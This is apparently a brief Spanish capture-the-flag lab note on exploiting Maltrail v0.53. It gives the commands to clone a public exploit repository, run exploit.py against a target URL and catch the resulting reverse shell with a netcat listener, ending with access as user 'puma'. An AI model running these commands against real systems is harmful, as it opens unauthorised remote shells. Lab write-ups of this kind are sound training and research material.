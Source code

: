 #maltrailv053

---------

[Exploit link de repositorio github](https://github.com/spookier/Maltrail-v0.53-Exploit)
Con [[git clone]] con el comando `git clone https://github.com/spookier/Maltrail-v0.53-Exploit` vamos clonar el repositorio en nuestra maquina. Luego con [[cd]] entramos con el comando `cd Maltrail-v0.53-Exploit`  y una vez dentro listamos el contenido de la carpeta con [[ls]] . Ahora que ya visualizamos el exploit lo vamos a ejecutar con `python3 exploit.py 10.10.16.9 443 http://10.10.11.224:55555/testeo` mientras estamos en escucha con [[nc -nlvp 443]]

![[Sau11.png]]

![[Sau10.png]]
Y listo ya ganamos acceso a la maquina siendo el usuario *puma*

-----
# Parametros del exploit

```
python3 exploit.py IpDeNuestraMaquina PuertoEnEscucha LinkDeLaPagina
Ejemplo: python3 exploit.py 10.10.16.9 443 http://10.10.11.224:55555/testeo
```